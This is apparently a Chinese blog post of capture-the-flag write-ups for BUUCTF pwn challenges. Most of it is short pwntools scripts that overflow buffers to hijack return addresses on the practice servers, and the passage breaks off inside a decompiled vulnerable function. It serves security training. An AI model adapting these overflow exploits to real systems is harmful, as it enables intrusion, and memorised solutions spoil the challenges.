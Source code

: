 ```yaml
---
title: buuctf-pwn write-ups (1)
date: 2023-02-28 22:04:00
categories:
- write-ups
- buuctf 系列
---
```

[BUUCTF网站](https://buuoj.cn/challenges)

笔者认为过于简单的题目会直接附上exp。
~~（不得不说buu的题目还挺多的）~~
零基础pwn萌新推荐先看这个：[视频](https://www.bilibili.com/video/BV1854y1y7Ro)

# buu001-test_your_nc
连上就行

# buu002-rip
```python
from pwn import *
context.log_level='debug'

# io = process('./pwn1')
io = remote('node4.buuoj.cn', 27534)

io.sendline(cyclic(15) + p64(0x401186))

io.interactive()
```
# buu003-warmup_csaw_2016
```python
from pwn import *

# io = process('./pwn')
io = remote('node4.buuoj.cn', 25377)

io.sendlineafter(b'>', cyclic(64+8) + p64(0x40060D))

io.interactive()
```
# buu004-ciscn_2019_n_1

```python
from pwn import *

# io = process("./pwn")
io = remote('node4.buuoj.cn', 26735)

io.sendlineafter(b'Let\'s guess the number', cyclic(44) + p32(0x41348000))

io.interactive()
```
# buu005-pwn1_sctf_2016
这道题是一个C++ pwn，但是逻辑不难理解，简单分析一下。下面是IDA反汇编的漏洞函数：
```cpp
int vuln()
{
  const char *v0; // eax
```